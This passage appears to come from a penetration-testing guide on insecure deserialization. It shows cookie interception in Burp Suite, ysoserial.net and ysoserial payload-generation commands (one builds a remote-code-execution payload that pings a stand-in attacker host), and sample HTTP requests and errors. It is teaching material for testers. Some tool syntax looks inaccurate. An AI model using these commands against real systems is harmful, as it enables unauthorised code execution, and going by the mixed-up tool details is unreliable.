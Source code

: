 ### Black Box Testing Examples:

1. **Identifying Input Points:**
   - **Example:** During your assessment, you identify that the application uses a cookie called `userData` which appears to contain serialized data.
     **Action:** Capture and inspect the cookie value. Prepare to test it with modified or malicious serialized data.

2. **Sending Malformed Data:**
   - **Example:** Using Burp Suite, intercept a request containing the `userData` cookie:
     ```
     Cookie: userData=<base64 encoded serialized object>
     ```
     **Action:** Modify the `userData` value to include malformed serialized data and observe the response for errors or crashes.

3. **Using Exploitation Tools:**
   - **Example:** Generate a payload using `ysoserial.net` for a .NET application:
     ```bash
     ysoserial.net -g TypeConfuseDelegate -f Json.Net
     ```
     **Action:** Inject this payload into the `userData` cookie and send the request. Monitor for successful execution or error messages indicating deserialization.

4. **Monitoring Responses:**
   - **Example:** You receive a response with an error stack trace indicating a deserialization error:
     ```
     System.InvalidOperationException: There is an error in XML document
     ```
     **Action:** Use this information to refine your payloads and pinpoint the exact deserialization vulnerability.

5. **Proxy and Intercept:**
   - **Example:** Intercept and modify traffic using Burp Suite to insert malicious serialized data:
     ```http
     POST /someEndpoint HTTP/1.1
     Host: vulnerableApp.com
     Content-Type: application/xml
     
     <userData>
         <ObjectType>ExploitType</ObjectType>
         <Data>malicious_payload</Data>
     </userData>
     ```
     **Action:** Send the modified request and observe the application's behavior.

### Practical Steps with Examples:

1. **Set Up Monitoring:**
   - **White Box:** Add logging to the deserialization function:
     ```csharp
     public T Deserialize<T>(string xml)
     {
         try
         {
             XmlSerializer serializer = new XmlSerializer(typeof(T));
             using (StringReader reader = new StringReader(xml))
             {
                 return (T)serializer.Deserialize(reader);
             }
         }
         catch (Exception ex)
         {
             Logger.Log("Deserialization error: " + ex.Message);
             throw;
         }
     }
     ```
   - **Black Box:** Use Burp Suite to capture and analyze HTTP traffic:
     ```
     GET /someEndpoint HTTP/1.1
     Host: vulnerableApp.com
     Cookie: userData=<captured_base64_encoded_data>
     ```

2. **Generate and Test Payloads:**
   - **White Box:** Modify code to test deserialization with different payloads:
     ```csharp
     string testXml = "<MyObject><Property>test</Property></MyObject>";
     MyObject obj = Deserialize<MyObject>(testXml);
     ```
   - **Black Box:** Use `ysoserial` to generate payloads:
     ```bash
     ysoserial -o Pickle -p RCE "ping -c 1 attacker.com"
     ```

3. **Analyze Error Responses:**
   - **White Box:** Review log files for deserialization errors:
     ```
     Deserialization error: InvalidOperationException: There is an error in XML document
     ```
   - **Black Box:** Inspect HTTP response for stack traces or error messages:
     ```
     HTTP/1.1 500 Internal Server Error
     Content-Type: text/html
     
     <html>
         <body>
             <h1>Server Error</h1>
             <p>System.InvalidOperationException: There is an error in XML document</p>
         </body>
     </html>
     ```
